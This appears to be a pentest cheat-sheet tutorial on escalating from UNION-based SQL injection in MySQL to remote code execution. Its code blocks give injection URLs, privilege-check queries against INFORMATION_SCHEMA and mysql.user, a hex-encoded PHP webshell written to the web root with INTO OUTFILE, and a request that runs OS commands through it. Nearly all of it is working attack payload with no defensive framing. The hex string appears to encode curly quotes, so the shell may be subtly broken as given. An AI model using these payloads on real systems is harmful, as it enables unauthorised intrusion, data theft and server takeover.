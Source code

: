 # MySQL Privilege Escalation

## Identifying the vulnerability

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:  
```(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)```

Payload used for Privilege Check via MySQL System Table:  
```(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)```

Apply one of the queries into the 4th column:  
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server/database.

## Escalating privileges

Since we have permission to write, we can create our own PHP Webshell, but to do this we need to know the absolute path of INDEX.

### Finding absolute path

The most common way is to perform a 'Fatal Error' or a Syntax Error and the absolute path will be shown bolded like the image below.
Note: different websites displayes different output and format.

![fatal_error_syntax](https://i.imgur.com/rAPKrh1.png)

The bold part is the absolute path: **E:\xampp\htdocs** which is converted to **E:/xampp/htdocs**

### Uploading webshell

Below is the PHP script converted to 0xHEX format:  
```0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d```

The converted PHP payload:  
```“<?php system($_GET[‘cmd’]); ?>”```

The given query is the final payload to upload our simple webshell into webshell.php

```http://domain.com/index.php?id=1' Union Select 1,2,3,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,5,6,7,8,9,10,11,12 into outfile 'E:/xampp/htdocs/webshell.php'-- -```

Since the webshell is upload, you can go execute OS Commands:

```http://domain.com/webshell.php?cmd=whoami```




